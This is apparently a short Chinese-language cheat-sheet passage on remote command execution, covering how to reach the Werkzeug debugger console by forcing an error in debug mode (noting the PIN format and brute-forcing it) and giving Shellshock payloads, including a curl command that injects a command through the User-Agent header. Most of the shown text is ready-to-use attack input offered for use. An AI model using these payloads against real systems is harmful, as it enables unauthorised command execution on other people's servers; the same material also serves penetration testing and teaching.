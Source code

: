 ## 远程命令执行

**Werkzeug Debugger**

找到可以提供用户输入的地方，并提交以下字符串以引起错误:

```
strіng
```

如果目标在调试模式下运行其应用程序，您可能能够运行命令。如果您在本地运行目标，您可能会强行使用调试器PIN。调试器引脚的格式总是:' ***-***-*** '。

**Shellshock Bug**

```bash
() { :;}; echo vulnerable
```

```zsh
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```

